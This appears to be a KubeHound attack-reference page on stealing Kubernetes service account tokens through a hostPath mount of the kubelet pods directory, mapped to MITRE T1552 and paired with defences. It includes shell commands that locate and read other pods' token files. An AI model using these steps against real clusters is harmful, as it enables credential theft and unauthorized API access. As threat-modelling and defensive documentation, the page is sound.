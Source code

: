 ```yaml
---
title: EXPLOIT_HOST_TRAVERSE
---
```


<!--
id: EXPLOIT_HOST_TRAVERSE
name: "Steal service account token through kubelet host mount"
mitreAttackTechnique: T1552 - Unsecured Credentials
mitreAttackTactic: TA0006 - Credential Access
-->

# EXPLOIT_HOST_TRAVERSE

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Volume](../entities/volume.md) | [Volume](../entities/volume.md) | [Unsecured Credentials, T1552](https://attack.mitre.org/techniques/T1552/) |

This attack represents the ability to steal a K8s API token from a container via access to a mounted parent volume of the `/var/lib/kubelet/pods` directory.

## Details

An attacker in a container with access to the `/var/lib/kubelet/pods` directory or any parent directory of the node via a `hostPath` mount, even readonly, can steal the serviceaccount access tokens of all running pods to perform actions in the K8s API. 

## Prerequisites

A volume containing K8s API tokens is mounted into a container. The canonical case is a node root filesystem mounted readonly via a host path volume mount.

## Checks

Check for mounted directories that contain the service account token paths:

```bash
# The service account tokens are tmpfs mounts themselves so it is very apparent when they are present
cat /proc/self/mounts

# ...
/dev/vda1 /hostpods ext4 ro,relatime,discard 0 0
tmpfs /hostpods/063c7aae-1965-4824-b4f5-a8e7cdc2d224/volumes/kubernetes.io~projected/kube-api-access-zhzgh tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/648e72af-34a8-4be6-8e7a-9cfac7e7fd94/volumes/kubernetes.io~projected/kube-api-access-hkh28 tmpfs rw,relatime,size=51200k 0 0
tmpfs /hostpods/b8a7238c-83eb-4392-b055-ad08f8b8a218/volumes/kubernetes.io~projected/kube-api-access-xl5fz tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/5edf50d2-747c-45b2-8b40-210f1bfee866/volumes/kubernetes.io~projected/kube-api-access-2l9sx tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/f80874b0-1a52-4175-9705-550b75743adf/volumes/kubernetes.io~projected/kube-api-access-8ms4p tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/2e2811f3-cfb4-41ea-ae51-8e337357e0d0/volumes/kubernetes.io~projected/kube-api-access-7p2hf tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/37d46741-de8b-45b3-a0a4-874529bb4032/volumes/kubernetes.io~projected/kube-api-access-g8wqm tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/05ae5550-ac58-47a3-b466-c09944240062/volumes/kubernetes.io~projected/kube-api-access-pdqmc tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/3a55670f-a784-4d3c-8231-5bf90c54fc87/volumes/kubernetes.io~projected/kube-api-access-2bf8s tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/b40f8657-5a06-49ed-9128-b807de3281e5/volumes/kubernetes.io~projected/kube-api-access-hjbzn tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/4eb7074e-133f-4ecc-8fa4-a686cf46ba6d/volumes/kubernetes.io~projected/kube-api-access-wqsqv tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/23dab617-9d86-4658-823b-12aaab1f0edc/volumes/kubernetes.io~projected/kube-api-access-xd5fl tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/300cbaef-f0aa-441b-b22d-154bfa31901a/volumes/kubernetes.io~projected/kube-api-access-5xwr4 tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/e949b9f2-304b-4664-93e5-d0ca79d69448/volumes/kubernetes.io~projected/kube-api-access-xrbr4 tmpfs rw,relatime,size=15340756k 0 0
# ...
```

## Exploitation

If all (or part of) the host filesystem is mounted (/host in our example), steal access tokens for ALL pods running on the node:

```bash
ls /host/var/lib/kubelet/pods/0dc76586-c18c-4db6-b5f2-019f270d3621
# containers  etc-hosts  plugins	volume-subpaths  volumes

find /host/var/lib/kubelet/pods/ -name token -type l 2>/dev/null
#/host/var/lib/kubelet/pods/5a9fc508-8410-444a-bf63-9f11e5979bee/volumes/kubernetes.io~projected/kube-api-access-225d6/token
#/host/var/lib/kubelet/pods/a1176593-34a2-43e6-8bdd-ed10fa148fe7/volumes/kubernetes.io~projected/kube-api-access-ng6px/token
#/host/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token
#/host/var/lib/kubelet/pods/dfbf38ad-2e92-44e0-b05b-8859350b6ea5/volumes/kubernetes.io~projected/kube-api-access-c89ff/token
```

See [IDENTITY_ASSUME](./IDENTITY_ASSUME.md#exploitation) for how to use a captured token.

## Defences

### Monitoring

+ Monitor for access to well-known K8s secrets paths from unusual processes.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of parents of `/var/lib/kubelet/pods` or other sensitive locations.

### Prevent service account token automounting

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to access the API from within itself.

From version 1.6+ it is possible to prevent *automounting* of serviceaccount tokens on pods using:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sa1
automountServiceAccountToken: false
```

## Calculation

+ [ExploitHostTraverseToken](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_traverse_token.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)

